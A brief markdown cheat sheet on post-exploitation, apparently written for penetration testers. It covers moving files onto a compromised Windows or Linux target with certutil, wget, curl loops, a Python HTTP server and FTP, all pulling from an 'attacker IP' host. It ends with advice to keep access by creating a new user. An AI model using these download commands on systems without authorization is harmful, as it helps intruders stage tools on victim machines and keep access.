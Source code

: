 # Post Exploitation
## File Transfers
### Windows NT
#### Certutil
certutil.exe --urlcache -f http://IP
### Linux distros/BSD OS
#### HTTP
attacker: `python -m SimpleHTTPServer {port}`
target: 
- `wget http://attacker IP/filename`
- `curl http://attacker IP/filename --output filename`
- bash script:
````bash
# wget
#!/bin/bash
while read url;
 	do wget $url
# in urls.txt you have to insert the attacker IP and filename
done < urls.txt 

# ================

# curl
#!/bin/bash
while read url;
	do curl $url -O
# in urls.txt you have to insert the attacker IP and filename
done < urls.txt
````

 #### Browser
 Navigate directly to the file
 #### FTP
 attacker: `python -m pyftpdlib 21`
 target: `ftp attacker ip`
 #### Netcat
 Look at Linux Server Security Hack&Defend
 
 ## Maintaining Access
 Usually the best way to do so in a pentesting/redteaming assignment is creating a new user.
Try to avoid metasploit or other backdoor because you will lower the security level of the target machine.